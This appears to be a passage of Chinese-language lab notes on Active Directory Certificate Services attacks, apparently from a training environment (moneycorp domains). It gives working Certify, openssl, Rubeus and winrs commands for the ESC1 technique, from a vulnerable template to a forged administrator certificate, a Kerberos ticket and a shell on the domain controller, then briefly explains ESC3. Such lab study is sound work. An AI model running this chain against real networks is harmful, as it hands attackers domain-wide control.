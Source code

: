 ```
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
```
```
CA Name : mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA
 Template Name : HTTPSCertificates
 Schema Version : 2
 Validity Period : 1 year
 Renewal Period : 6 weeks
msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
 mspki-enrollment-flag : INCLUDE_SYMMETRIC_ALGORITHMS,
PUBLISH_TO_DS
Authorized Signatures Required : 0	
pkiextendedkeyusage : Client Authentication, Encrypting
File System, Secure Email
 mspki-certificate-application-policy : Client Authentication, Encrypting
File System, Secure Email
 Permissions
 Enrollment Permissions
Enrollment Rights : dcorp\RDPUsers S-1-5-21-719815819-3726368948-3917688648-1123
 mcorp\Domain Admins S-1-5-21-
335606122-960912869-3279953914-512
 mcorp\Enterprise Admins S-1-5-21-
335606122-960912869-3279953914-519
```
注意這個flag : 
```
msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
```

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```
如果成功，就會輸出PRIVATE KEY + CERTIFICATE 的 **X.509** 公開金鑰憑證(**HTTPSCertificates 範本的憑證和對應的私鑰**)，必須把他儲存起來到esc1.pem
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx
```
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt
```
```
winrs -r:dcorp-dc cmd /c set username
```
### ESC3 攻擊手法
>[!NOTE]
>證代理人 (Certificate Request Agent) 被濫用。攻擊者先申請一張「Enrollment Agent」憑證，再用它幫自己或任何高權限帳號申請用於登入/身份驗證的憑證，進而獲得目標帳號（如 Administrator）的 Kerberos TGT 或 AD 登入。

>[!TIP]
>先申請一張「可以幫別人辦憑證」的代理人憑證 → 再用它幫 Domain Admin 申請憑證 → 再用那張 Admin 憑證去要 Admin 的 Kerberos TGT。
